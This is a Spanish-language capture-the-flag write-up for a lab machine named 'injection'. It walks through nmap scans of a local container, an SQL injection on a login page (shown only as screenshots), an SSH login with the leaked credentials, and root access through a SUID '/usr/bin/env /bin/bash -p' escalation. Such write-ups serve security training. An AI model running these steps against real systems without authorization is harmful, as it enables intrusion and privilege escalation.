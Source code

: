 #Maquina injention

-Nivel: Muy fácil

##Escaneo de puertos

<p>Tras encender la máquina lo primero que haremos será un ping para comprobar que todo esta correcto</p>

'''
ping -c1 172.17.0.2
'''

'''
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms
'''

<p>Como podemos observar la máquina esta encendida, por el TTL se puede intuir que es una máquina Linux</p>

<p>Con esto comprobado procedemos a realizar el primer escaneo con nmap</p>

'''
sudo nmap -p- --open -sS -vvv -Pn 172.17.0.2
'''

'''
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:03 CET
Initiating ARP Ping Scan at 00:03
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:03, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:03
Completed Parallel DNS resolution of 1 host. at 00:03, 6.53s elapsed
DNS resolution of 1 IPs took 6.53s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:03
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:03, 1.42s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000090s latency).
Scanned at 2025-02-06 00:03:29 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 8.20 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
'''

<p>El escaneo nos reporta que los puertos 22 y 80 estan abiertos lo cual puede ser un indicativo de que hay una página web corriendo en la máquina</p>
<p>Realizamos un segundo escaneo de esos puertos para obtener información mas detallada</p>

'''
sudo nmap -p 22,80 -sV -vvv -Pn 172.17.0.2
'''

'''
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 00:06 CET
NSE: Loaded 46 scripts for scanning.
Initiating ARP Ping Scan at 00:06
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:06, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 00:06
Completed Parallel DNS resolution of 1 host. at 00:06, 6.52s elapsed
DNS resolution of 1 IPs took 6.52s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 3, CN: 0]
Initiating SYN Stealth Scan at 00:06
Scanning 172.17.0.2 [2 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:06, 0.02s elapsed (2 total ports)
Initiating Service scan at 00:06
Scanning 2 services on 172.17.0.2
Completed Service scan at 00:06, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 172.17.0.2.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.01s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:06
Completed NSE at 00:06, 0.00s elapsed
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000042s latency).
Scanned at 2025-02-06 00:06:29 CET for 6s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
           Raw packets sent: 3 (116B) | Rcvd: 3 (116B)
'''

<p>Este escaneo nos reporta que estamos ante una máquina Ubuntu la cual corre un Apache 2.4.52</p>




##Pagina Web

<p>Introducimos la IP de la máquina en el navegador y nos lleva a la siguiente página</p>

![captura_injection_1](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-17-24.png)

<p>Podemos observar que es una página de inicio de sesión</p>
<p>Probamos una inyección SQL</p>

![captura_injection_2](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-24-24.png)

<p>La página es vulnerable a SQL Injection, nos muestra el siguiente resultado </p>

![captura_injection_3](https://github.com/dancs334/ciber/blob/main/capturas/Screenshot_2025-02-06_00-26-15.png)

<p>Nos da un nombre de usuario y una contraseña</p>

##Conexión por ssh
<p>Aprovechando este nombre y contraseña tratamos de conectarnos por ssh</p>

'''
ssh dylan@172.17.0.2
'''

'''
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Feb  5 23:25:00 2025 from 172.17.0.1
dylan@7af8994eca56:~$ 
'''
<p>Ha funcionado, tenemos una conexión ssh con la máquina</p>

##Escalada de privilegios

Comprobamos que somos el usuario dylan

'''
whoami
'''

'''
dylan
'''

<p>Buscamos los programas sobre los que tenemos privilegios</p>

'''
sudo -l
'''

'''
-bash: sudo: command not found
'''

<p>Probamos otra forma de busqueda</p>

<p>Buscamos todos los archivos con permiso SUID y cuyo usuario sea root de forma que al ejecutarse lo hagan como este</p>
'''
find / -perm -4000 -user root 2>/dev/null
'''

'''
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/env
/usr/bin/chfn

'''

<p>De estos archivos podemos destacar /usr/bin/env el cual se utiliza para ejecutar un programa con variables de entorno personalizadas</p>
<p>Probamos a ejecutar /bin/bash con /bin/env de forma que al cumplir con las caracteristicas mencionadas anteriormente debería devolver una bash con permisos de root</p>

'''
/usr/bin/env /bin/bash -p
'''

'''
bash-5.1# whoami
root

'''
